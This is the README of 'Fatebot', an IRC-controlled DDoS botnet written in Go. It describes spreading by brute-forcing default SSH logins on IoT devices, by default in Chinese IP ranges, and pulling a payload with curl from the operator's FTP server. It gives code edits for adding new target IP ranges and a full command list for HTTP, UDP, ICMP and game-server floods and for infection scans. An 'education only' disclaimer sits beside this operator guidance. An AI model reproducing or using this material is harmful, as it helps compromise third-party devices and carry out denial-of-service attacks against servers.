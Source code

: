 <h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot v0.3.1
This is my first IRC bot for launch ddos attack, Mainly of scan target are IoT device that run linux and open default SSH port, This bot is write on Go language. For education purpose only. Please test it in your lab. And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

<img src="assets/drfate.jpg" alt="Dr Fate">

# Infect
The infect function of this botnet is scanning by default SSH port<strong>(Default are scan on range of CHN network. You can add more or change it, if you want.)</strong>
and login by Brute-force attack. This botnet use "curl" to get payload from FTP server, so... please prepair your FTP server first, It very important for infect process.

<strong>I scan on my private netowrk in SSH range, And comment a function of running session.(That's why bot is not join The server.)</strong>
<img src="assets/scanprocess.png" alt="SSH scan">

# Add more IP range

(1) Go to "scan.go" file in pkg folder. Add your new ip range in to The group of const varible.

		var_name = "224." //224.0.0.0 - 224.255.255.255
		or
		var_anme = "224.12" //224.12.0.0 - 224.255.255.255

(2) Go to "NextIP" function, And add The case for your ip range and return range of your ip.

		case var_name:
				return ManageIP_range(ipRange, GenRange(255, 0))
		or
		case var_name:
				return ManageIP_range(ipRange, "")

(3) Then go to The "SSH_Conn" function, And add your constant ip range to The array name "NetArr".

		NetArr := []string{
			chpn1, chpn2, chpn3, chpn4, chpn5, cgpn1, cgpn2, cgpn3,
			cgpn4, cgpn5, cgpn6, var_name,
		}

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood.
Main DDoS function is on <strong>The Application layer</strong>.


<img src="assets/postflood.png" alt="http post flood, dos example">

# Build payload
<img src="assets/buildpayload.gif" alt="how to build">

# Update Lists
<p><strong>Fatebot v0.1</strong> = Fatebot open release.</p>
<p><strong>Fatebot v0.2</strong> = Update get bot system information function and Add tutorial in main and scan file.</p>
<p><strong>Fatebot v0.2.1</strong> = Cut private scanning and OS signal by change it to delete when running. And change some IRC commands that will type easier.</p>
<p><strong>Fatebot v0.2.2</strong> = Cut scan failed report for fix server overheat and excess flood, 
  And Optimize by change ip range and default ping time, That will help to find SSH port faster.(Maybe, But fast than old one.)</p>
<p><strong>Fatebot v0.3</strong> = Update new DDoS Vector. Set size of UDP packet to 700 as default when bot herder not input The size.</p>
<p><strong>Fatebot v0.3.1</strong> = Fix vse and post flood. Fix IRC configuration that will make a little easy to config and change project layout.</p>

# IRC Commands
<ul>
  <li><strong>?get [url]</li></strong>
    <ul>
      <li>?get http://target.com</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?post [url]</li></strong>
    <ul>
      <li>?post http://target.com</li>
      - Flood HTTP post request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      - Flood UDP packets by random src and dst port to target. 
      <p>- Min and Max of Buffer is 1 - 700bytes.</p>
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      - Flood ICMP with large packets to target.
    </ul>
</ul>

<ul>
  <li><strong>?vse [ip]</li></strong>
    <ul>
      <li>?vse 192.168.1.16</li>
      - Flood UDP packets by random src port with valve source engine dst port. To the target server that used to host online games.
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      - Scan CHN ip range on SSH port and get payload with curl.
    </ul>
</ul>

<ul>
  <li><strong>?info</li></strong>
    <ul>
      - Get bot system information.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Kick bot out of The server.
    </ul>
</ul>

<ul>
  <li><strong>?stopddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stopscan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
